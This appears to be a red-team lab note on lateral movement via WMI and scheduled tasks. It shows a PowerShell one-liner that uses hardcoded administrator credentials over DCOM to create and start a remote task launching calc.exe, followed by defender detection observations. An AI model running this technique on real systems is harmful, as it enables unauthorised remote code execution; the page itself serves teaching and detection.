 # WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](../.gitbook/assets/peek-2018-10-19-22-24.gif)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](../.gitbook/assets/screenshot-from-2018-10-19-22-35-13.png)

![](../.gitbook/assets/screenshot-from-2018-10-19-22-59-12.png)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}



